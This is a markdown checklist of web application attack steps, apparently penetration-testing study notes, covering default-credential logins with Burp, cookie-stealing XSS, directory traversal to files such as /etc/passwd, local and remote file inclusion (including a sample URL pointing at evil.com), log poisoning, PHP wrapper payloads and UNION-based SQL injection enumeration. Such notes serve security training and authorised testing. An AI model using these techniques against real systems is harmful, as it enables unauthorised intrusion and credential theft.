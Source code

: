 ## Exploit
* Admin Consoles
  * Attempt to login using default credentials
  * Attempt to login using credentials found elsewhere (shares: SMB, NFS, etc.)
  * Use Burp Proxy to confirm which parameters are required to submit a valid HTTP request (cookie, session, password, token, etc.)
  * Use Burp Intruder to set the parameters required to submit a valid HTTP request
* XSS
  * Check if special characters are sanitized: <, >, {, }, ', ", ;
  * Check if HTML encoded special characters are sanitized  
  * Check if URL (Percent) encoded special characters are sanitized
  * Attempt a XSS attack 
    * Redirect a victim to a staged, information gathering script (HTML iframes)
    * Steal cookies and use them to negate having to authenticate to an Admin Console (JavaScript)
* Directory Traversal
  * Find references to files and change the value to something else. 
  * Look for file extensions in URLs. 
  * If you find a viable attack vector, try files accessible by all users (try the paths using encoding too; consider null characters to terminate file paths on older versions of PHP).
    * Windows:
      * C:\boot.ini
      * C:\Windows\System32\Drivers\etc\hosts
    * Linux:
      * /etc/passwd 
  * If you're able to access the web app's configuration files (ex: php.ini), you might be able to find credentials or determine if File Inclusions are allowed. 
    * Variables to check in the php.ini configuration file. 
      * register_globals: ???
      * allow_url: on 
* File Inclusions
  * Use the same techniques for identifying Directory Traversal vulnerabilities to find LFIs. 
  * For RFIs, try different ports to ensure firewalls are not a problem (ex: index.php?file=http://evil.com:443). 
  * For RFIs, try null characters to terminate file paths (necessary when dealing with older versions of PHP).
  * For RFIs, try ending your RFI paylods with ? so they're digested as part of the query string by the web server. 
  * If you can't upload files to perform an LFI, try log poisoning. You need to know the following:
    * File path for HTTP access log
        * /var/log/apache/access.log
        * /var/log/apache2/access.log
        * /var/log/httpd/access.log
    * Parameter to use (ex: file=, page=, cmd=)
  * For LFIs, try PHP protocol wrappers (file=data:text/plain,<php? echo 'foo' ?>)
* SQL Injection
  * Identify attack vectors and enumerate the underlying technology stack using single-quotes (single-quotes to delimit SQL strings)
  * Enumerate column count of immediate table using ORDER BY statements
  * Enumerate table names using UNION statements
  * Enumerate column names of interesting tables using UNION statements
